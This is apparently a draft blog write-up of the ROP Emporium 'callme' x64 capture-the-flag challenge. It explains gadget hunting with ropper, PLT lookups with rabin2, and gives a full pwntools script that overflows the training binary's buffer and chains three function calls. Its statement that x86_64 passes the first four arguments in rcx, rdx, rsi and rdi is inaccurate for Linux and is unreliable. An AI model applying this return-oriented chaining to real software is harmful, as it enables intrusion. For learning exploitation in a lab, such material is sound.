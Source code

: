 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-3
title: ROP x64 Challenge 3
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```

## Challenge 3

With the first real ROP challenge completed, let's start getting into some of the fun stuff. While unintended gadgets are super fun to play with, it's also super useful to be able to call intended functions and that is what this challenge deals with. 

Before we go into the challenge, let's take a quick look at how function arguments are passed from caller to callie which is actually system dependent. In x86_64, both the stack and the registers are used, but in practice it's really just the registers. The first 4 arguments are placed in registers, then the rest are pushed onto the stack before the call.

| 64-bit register | 32-bit sub-register | 16-bit sub-register | 8-bit sub-register | Notes               |
| --------------- | ------------------- | ------------------- | ------------------ | ------------------- |
| %rcx            | %ecx                | %cx                 | %cl                | Counter & 4th arg   |
| %rdx            | %edx                | %dx                 | %dl                | 3rd arg             |
| %rsi            | %esi                | %si                 | %sil               | 2nd arg             |
| %rdi            | %edi                | %di                 | %dil               | 1st call argument |

So, if we have the following function:

```C
int foo(int var1, int var2, int var3){
	stuff
}
```

and we wanted to call the function as `foo(1,2,3);` then we would have to place 1 in rdi, 2 in rsi, and 3 in rdx.

With that background covered, let's look at the challenge:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, ~~each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag~~. ==**For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`==

First things first, let's just focus on doing it for callme_one. We need to find gadgets that will let us control the values of rdi, rsi, and rdx. The simplest way is to pop them off the stack because we already control that. So let's search for pop rdi in the binary.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/callme/callme_64/callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 

```


Will you look at that, that's super useful (it's also there intentionally, hint `disass usefulGagets`).

With that gadget we can set all of the arguments to the callme functions.

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | pop gadget loc | # call 1st gadget to pop off all the vals
8  bytes | 0xdeadbeef...  | # all of the function arguments
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_1 loc   | # call the first call me function
8  bytes | pop gadget loc | # start again, and call the pop off gadget
8  bytes | 0xdeadbeef...  | # function args again
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_2 loc   | # call the sec call me function
8  bytes | pop gadget loc | # start again for the last time
8  bytes | 0xdeadbeef...  |
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_3 loc   | # final call of call me
8  bytes | -------------- |

```

There's just one last thing that we don't know, what values to place into the stack for the callme functions. To do this, we can use the rabin2 tool from before:
```
rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

And we are able to get the locations of the callme functions. An important note is that these are in the plt (Procedure Linkage Table), not actually the callme binary. That won't matter for this challenge, but we will have to deal with the plt and how linked binaries work later on.

At this point we have all of the values that we want to put on the stack, so it's just a question of coding up an exploit in python with our trusty pwntools.

```python
#!/usr/bin/python3

from pwn import *
io = process('./callme')

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
popper = p64(0x0040093c)
call1 = p64(0x00400720)
call2 = p64(0x00400740)
call3 = p64(0x004006f0)

back_junk = b"B" * 20

newbp    = p32(0xba5effff) * 2

d00df00d = p32(0xd00df00d) * 2
deadbeef = p32(0xdeadbeef) * 2
cafebabe = p32(0xcafebabe) * 2

args = deadbeef + cafebabe + d00df00d 

payload = junk + newbp + popper + args +call1 + popper + args + call2 + popper + args + call3

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))

io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))

sleep(1)

```

